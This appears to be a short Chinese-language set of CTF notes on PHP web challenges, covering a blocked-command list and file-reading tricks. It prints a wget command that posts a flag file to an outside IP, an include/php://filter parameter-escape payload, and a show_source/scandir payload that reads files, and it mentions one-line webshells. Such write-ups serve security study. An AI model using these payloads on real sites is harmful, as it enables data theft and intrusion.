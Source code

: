 ```
ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sort|cut|xxd
```

无回显的情况下wget带出

```
wget  --post-file flag 47.100.120.123:2333
```

### 参数逃逸：

**url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php**

文件包含前提：

allow_url_fopen = On

allow_url_include = On

**四个函数：include()  include_once()  require()  require_once()**

**理解:将c的内容作为php代码注入当前网页，（文件包含）**

在用一句话木马可以连接，也可以直接php伪协议输出当前的代码，在解码获取flag

 

## **函数解释：**localeconv()pos()array_reverse()show_source**

1.show_source() 函数对文件进行语法高亮显示。

本函数是 [highlight_file()](https://www.w3school.com.cn/php/func_misc_highlight_file.asp) 的别名。

2.localeconv()：返回一包含本地数字及货币格式信息的数组。其中数组中的第一个为点号(.)

3.pos()：返回数组中的当前元素的值。

4.array_reverse()：数组逆序 scandir()：获取目录下的文件

5.next()：函数将内部指针指向数组中的下一个元素，并输出。 首先通过

pos(localeconv())得到点号，因为scandir(’.’)表示得到当前目录下的文件，所以scandir(pos(localeconv()))就能得到flag.php了。具体

体现为print_r(scandir(pos(localeconv()));将含.的文件包含以数组的形式呈现

print_r(array_reverse(scandir(pos(localeconv())));将含.的文件包含以数组的形式呈现并将数组逆序

Print_r(next(array_reverse(scandir(pos(localeconv())))));将含.的文件包含以数组的形式呈现并将数组逆序,并将第二个文件输出舍弃其他的文件

 

**Payload:**  **?c=show_source(next(array_reverse(scandir(pos(localeconv())))));**

### 生成字典绕过：

好像是重新生成了一个字典
